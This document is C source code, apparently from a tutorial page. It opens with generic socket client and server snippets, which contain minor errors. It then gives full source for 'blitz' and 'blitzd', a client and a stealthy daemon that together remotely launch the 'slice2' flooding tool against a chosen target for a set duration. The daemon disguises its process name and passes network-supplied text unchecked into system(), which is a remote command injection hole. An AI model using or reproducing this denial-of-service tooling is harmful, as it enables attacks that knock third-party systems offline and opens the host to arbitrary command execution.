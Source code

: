 #include <sys/socket.h>
#include <netinet/in.h>
/*
* Socket address, internet style.
*/
struct sockaddr_in {
u_char sin_len;
u_char sin_family;
u_short sin_port;
struct in_addr sin_addr;
char sin_zero[8];
};
sockfd = socket(AF_INET, SOCK_STREAM, 0);
bzero(&address, sizeof(saddress));
address.sin_family = AF_INET;
address.sin_addr.s_addr = inet_addr("host");
address.sin_port = htons(atoi("port"));
connect(sockfd, (struct sockaddr *)&address, sizeof(address));
write(sockfd, ...);
read(sockfd, ...);
close(sockfd);
<++> blitz.c
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
int main(int argc, char *argv[])
{
int i;
int sockfd;
int len;
struct sockaddr_in address;
int result;
char cmd[128];
char ch;
if (argc < 9) {
fprintf(stderr, "blitz by phreeon / hydra\n");
fprintf(stderr, "syntax: %s <host> <port> <source> <destination> <start> <stop> <dupes> <duration>\n", argv[0]);
exit(1);
}
sockfd = socket(AF_INET, SOCK_STREAM, 0);
address.sin_family = AF_INET;
address.sin_addr.s_addr = inet_addr(argv[1]);
address.sin_port = htons(atoi(argv[2]));
len = sizeof(address);
result = connect(sockfd, (struct sockaddr *)&address, len);
if(result == -1) {
printf("%s->%s: connection refused!\n", argv[1], argv[4]);
exit(1);
}
sprintf(cmd, "%s %s %s %s %s %s", argv[3], argv[4], argv[5], argv[6], argv[7], argv[8]);
write(sockfd, cmd, sizeof(cmd));
read(sockfd, &ch, 1);
if (ch == '.') {
printf("%s->%s: successful!\n", argv[1], argv[4]);
}
if (ch == '!') {
printf("%s->%s: failed!\n", argv[1], argv[4]);
}
if (ch != '.' && ch != '!') {
printf("%s->%s: unknown!\n", argv[1], argv[4]);
}
close(sockfd);
exit(0);
}
<-->
#include <sys/socket.h>
#include <netinet/in.h>
int server_sockfd, client_sockfd;
struct sockaddr_in server_address;
struct sockaddr_in client_address;
server_sockfd = socket(AF_INET, SOCK_STREAM, 0);
bzero(&server_address, sizeof(server_address));
server_address.sin_family = AF_INET;
server_address.sin_port = htons(atoi("port");
server_address.sin_addr.s_addr = htonl(INADDR_ANY);
bind(server_sockfd, (struct sockaddr *)&server_address, sizeof(server_address));
switch (fork()) {
case -1:
perror("fork");
return 3;
break;
default:
close(server_sockfd);
return 0;
break;
case 0:
break;
}
listen(server_sockfd, 5);
for (;;) {
b = sizeof(client_address); // b имеет тип int
client_sockfd = accept(s, (struct sockaddr *)&client_address, &b);
read(client_sockfd, ...);
write(client_sockfd, ...);
close(client_sockfd);
}
<++> blitzd.c
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <netinet/in.h>
#include <sys/time.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include "lists.h"
int main(int argc, char *argv[])
{
int x;
char stealth[128];
char good, bad;
time_t timeval;
int server_sockfd, client_sockfd;
int server_len, client_len;
struct sockaddr_in server_address;
struct sockaddr_in client_address;
int result;
fd_set readfds, testfds;
good = '.';
bad = '!';
if (argc < 2) {
fprintf(stderr, "blitzd by phreeon / hydra\n");
fprintf(stderr, "syntax: %s <port> <stealth>\n", argv[0]);
exit(1);
}
server_sockfd = socket(AF_INET, SOCK_STREAM, 0);
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = htonl(INADDR_ANY);
server_address.sin_port = htons(atoi(argv[1])); 
strcpy(stealth, argv[2]);
for (x = argc-1; x >= 0; x--) {
memset(argv[x], 0, strlen(argv[x]));
}
strcpy(argv[0], stealth);
server_len = sizeof(server_address);
bind(server_sockfd, (struct sockaddr *)&server_address, server_len);
listen(server_sockfd, 5);
FD_ZERO(&readfds);
FD_SET(server_sockfd, &readfds);
while(1) {
char cmd[128], realcmd[512];
int fd;
int nread;
testfds = readfds;
(void)time(&timeval);
// printf("[%s] server waiting\n", string_range(ctime(&timeval), 0, (strlen(ctime(&timeval))-2)));
result = select(FD_SETSIZE, &testfds, (fd_set *)0, 
(fd_set *)0, (struct timeval *) 0);
if(result < 1) {
perror("server5");
exit(1);
}
for(fd = 0; fd < FD_SETSIZE; fd++) {
if(FD_ISSET(fd,&testfds)) {
if(fd == server_sockfd) {
client_sockfd = accept(server_sockfd, 
(struct sockaddr *)&client_address, &client_len);
FD_SET(client_sockfd, &readfds);
(void)time(&timeval);
// printf("[%s] adding client %s:%d on fd %d\n", string_range(ctime(&timeval), 0, (strlen(ctime(&timeval))-2)), inet_ntoa(client_address.sin_addr.s_addr), ntohs(client_address.sin_port), client_sockfd);
}
else {
ioctl(fd, FIONREAD, &nread);
if(nread == 0) {
close(fd);
FD_CLR(fd, &readfds);
(void)time(&timeval);
// printf("[%s] removing client %s on fd %d\n", string_range(ctime(&timeval), 0, (strlen(ctime(&timeval))-2)), inet_ntoa(client_address.sin_addr.s_addr), fd);
}
else {
read(fd, cmd, 128);

/* argument descriptions */
/* --------------------- */
/* source target startport stopport dupes duration */
/* 0 127.0.0.1 3 2000 2 360 */
sleep(5);
(void)time(&timeval);
// printf("[%s] serving client %s on fd %d (%s)\n", string_range(ctime(&timeval), 0, (strlen(ctime(&timeval))-2)), inet_ntoa(client_address.sin_addr.s_addr), fd, cmd);
if (llength(cmd) == 6) {
sprintf(realcmd, "./slice2 %s > /dev/null &\nsleep %s; kill `pidof slice2`;", lrange(cmd, 0, 4), lindex(cmd, -1));
write(fd, &good, 1);
system(realcmd);
} else {
write(fd, &bad, 1);
}
}
}
}
}
}
}
<-->
